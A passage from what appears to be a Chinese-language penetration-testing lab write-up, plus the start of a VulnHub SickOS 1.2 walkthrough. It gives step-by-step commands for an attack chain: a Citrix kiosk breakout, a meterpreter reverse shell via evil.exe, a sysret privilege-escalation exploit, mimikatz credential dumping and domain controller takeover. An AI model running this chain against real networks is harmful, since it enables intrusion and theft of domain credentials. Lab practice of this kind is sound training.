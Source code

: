获得图形化界面
远程桌面端口转发:
portfwd add -l 3389 -p 3389 -r 10.7.0.22

使用之前得到的密码远程登录:
rdesktop 127.0.0.1 -u mike -p 'mike!' -d megacorpone -g 1024*680

成功连接上后,发现IE主页是个citrix xenapp的登录页面,使用mike的账号登录
登录后,发现只有一个IE可供使用

尝试脱出IE的限制
点击设置里的 interner exploree help,在搜索框里输入notepad,转到open notepad-click to open notepad,成功打开notepad
在notepad里输入powershell,另存为cmd.bat
然后文件-打开-找到cmd.bat-右击打开,成功打开一个powershell窗口

ipconfig获得ip(10.7.0.20)
下载我们之前传到mike电脑上的evil.exe

kali机起msf侦听
.\evil.exe执行,成功获得一个普通权限的shell

尝试提权,发现KB2709715未安装:
wmic qfe |find "KB2709715"

找ms12-020的exp,上传到目标机器
upload /root/sysret.exe c:\\users\\mike\\downloads
upload /root.MinHook.x64.dll c:\\users\mike\\downloads

让meterpreter获得系统级权限:
getpid(1784)
execute -H -f sysret.exe -a "-pid 1784"
getuid

从内存中dump hash:
由于此时meterpreter是附在64位程序上的,而mimikatz是32位的,所有我们要切换进程到32位程序上,例:winlogon
ps -S winlogon
migrate 832(pid)
load mimikatz
msv
kerberos

获得所有域成员的密码,包括管理员的密码

切换到会话1:
sessions -i 1

端口转发:
portfwd add -l 3389 -p 3389 -r 10.7.0.21

远程登录,获得域控:
rdesktop 127.0.0.1 -u Administrator -p ubxxxxxx -d megacorpone


## sickos 1.2

靶机下载地址:   https://www.vulnhub.com/entry/sickos-12,144/

端口扫描,发现有80端口,访问,是张图片
